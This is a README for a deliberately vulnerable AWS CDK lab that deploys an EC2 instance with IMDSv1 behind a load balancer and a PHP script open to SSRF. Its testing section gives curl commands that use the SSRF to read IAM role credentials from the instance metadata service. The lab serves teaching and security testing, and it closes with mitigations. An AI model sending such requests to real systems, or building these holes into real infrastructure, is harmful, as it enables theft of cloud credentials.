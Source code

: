 # ALB + Private EC2 SSRF Vulnerability Demo

This CDK project demonstrates SSRF (Server-Side Request Forgery) vulnerability against IMDSv1 in a private subnet EC2 instance behind an Application Load Balancer.

## ⚠️ Security Warning

**This project is for educational and testing purposes only.** It intentionally creates vulnerable infrastructure with:
- IMDSv1 enabled (vulnerable to SSRF attacks)
- A PHP script with SSRF vulnerability
- Insecure network configurations

**DO NOT deploy this in production environments.**

## Architecture

- VPC with public and private subnets
- Application Load Balancer in public subnet
- EC2 instance in private subnet with IMDSv1 enabled
- Vulnerable PHP script for SSRF testing
- SSM endpoints for remote access

![Architecture](draw/architecture.png)

## Prerequisites

- AWS CLI configured
- AWS CDK installed (`npm install -g aws-cdk`)
- Node.js and npm

## Deployment

```bash
git clone https://github.com/kyo-tsun/alb-privateec2-ssrf.git
cd alb-privateec2-ssrf
npm install
cdk bootstrap
cdk deploy
```

## Testing SSRF Attack

After deployment, get the ALB DNS name from the output and test:

```bash
# Get IAM role credentials via SSRF
curl "http://[ALB_DNS_NAME]/fetch.php?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/"

# Get specific role credentials
curl "http://[ALB_DNS_NAME]/fetch.php?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/[ROLE_NAME]"
```

## Cleanup

```bash
cdk destroy
```

## Security Mitigation

To secure this setup:
1. Enable IMDSv2 only (`requireImdsv2: true`)
2. Remove the vulnerable PHP script
3. Implement proper input validation
4. Use WAF to block malicious requests